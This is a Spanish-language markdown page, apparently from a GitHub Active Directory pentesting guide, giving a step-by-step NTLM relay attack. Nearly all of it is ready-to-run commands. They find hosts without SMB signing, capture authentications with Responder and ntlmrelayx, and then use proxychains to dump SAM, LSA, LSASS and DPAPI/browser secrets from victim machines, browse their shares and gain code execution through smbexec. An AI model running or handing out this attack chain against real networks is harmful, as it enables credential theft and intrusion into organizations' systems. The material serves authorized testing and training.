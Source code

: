 # Capturar credenciales NTLM y redirigirlas

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid.gif?raw=true "Relay list")

```Bash
# Deshabilitar las opciones SMB y HTTP de Responder y ejecutarlo
sudo python responder.py -I <Interfaz de red>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid2.gif?raw=true "Deshabilitar SMB y HHTP Ejecutar responder y ntlmrelayx")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid3.gif?raw=true "Capturar autenticaciones y guardarlas en socks)

```Bash
# Primero modificar el puerto de la última línea de proxychains para que quede asi:
socks4  127.0.0.1 1080
# Redirigir la autenticación obtenida con tlmrelayx con proxychains pudiendo realizar diversas acciones, como por ejemplo

# Obtener SAM y LSA de los equipos víctima
proxychains impacket-secretsdump -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
# Obtener LSASS de los equipos víctima
proxychains lsassy --no-pass -d <dominio> -u <usuario> <ip víctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid4.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 1")


```Bash
# Instalar DonPAPI con desde su github con poetry: https://github.com/login-securite/DonPAPI
# Obtener dpapi de los equipos víctima y otras como  files, browser, schedule tasks,…
proxychains poetry run DonPAPI -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid5.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 2")


```Bash
# Obtener acceso a las carpetas del equipo
proxychains impacket-smbclient -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid6.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 3")

```Bash
# Obtener ejecución de código
proxychains impacket-smbexec -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid7.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 4")

